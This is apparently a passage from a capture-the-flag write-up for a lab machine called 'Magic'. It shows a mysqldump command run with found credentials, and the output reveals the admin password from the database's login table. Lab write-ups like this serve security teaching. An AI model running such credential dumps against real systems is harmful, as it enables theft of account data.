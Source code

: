 ### Mysqldump

We will now attempt to use `mysqldump` with theese. `Mysql` is not installed on the box that is why we are using `mysqldump`

```bash
$ mysqldump -u theseus --password=iamkingtheseus --single-transaction --all-databases
<iamkingtheseus --single-transaction --all-databases
```

```sql
$ mysqldump -u theseus --password=iamkingtheseus --single-transaction --all-databases
<iamkingtheseus --single-transaction --all-databases
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: 
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
```